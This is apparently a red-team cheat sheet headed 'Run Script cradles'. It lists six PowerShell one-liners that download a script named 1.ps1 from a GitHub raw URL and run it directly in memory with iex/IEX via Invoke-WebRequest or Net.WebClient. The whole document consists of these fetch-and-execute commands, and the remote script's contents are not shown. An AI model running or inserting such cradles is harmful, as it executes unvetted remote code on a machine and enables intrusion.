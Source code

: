 # Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content
iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)
IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1'))
iex ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')
